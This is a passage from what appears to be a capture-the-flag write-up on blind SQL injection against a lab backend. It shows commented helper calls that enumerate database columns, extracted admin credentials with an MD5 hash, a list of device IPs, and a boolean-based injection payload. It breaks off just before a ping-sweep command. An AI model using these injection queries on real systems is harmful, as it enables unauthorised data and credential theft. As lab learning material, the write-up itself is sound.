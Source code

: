     # blind("column_name","from information_schema.columns where table_name='users' and column_name not in ('id')")
    # blind("column_name","from information_schema.columns where table_name='users' and column_name not in ('id','username')")
    # blind("column_name","from information_schema.columns where table_name='users' and column_name not in ('id','username','password')")
    # blind("column_name","from information_schema.columns where table_name='users' and column_name not in ('id','username','password','USER')")
    # id, username, password, USER
    
    # blind("password","from users where username='admin'")
    # 1, admin, 5f4dcc3b5aa765d61d8327deb882cf99 (password)
    # 
    
    blind("group_concat(ip)","from devices")
    # 1, 10.176.194.225
    # 2, 244.181.238.206
    # 3, 243.221.130.19
    
    
    # x' AND 6492=(SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(ip AS CHAR),0x20) 
    # FROM flitebackend.devices ORDER BY id LIMIT 2,1),6,1))>87) THEN 6492 ELSE 
    # (SELECT 4509 UNION SELECT 4483) END))-- Ysdo

after that i got couple of information from the databases have 2 tables that have schema other than `information_schema` which is `users and devices`, from users table i got an admin credentials with username: admin and password: password but it was not quite usefull and from another table `devices` i got list of an ipaddress i tried run a `ping sweep` using this command  :

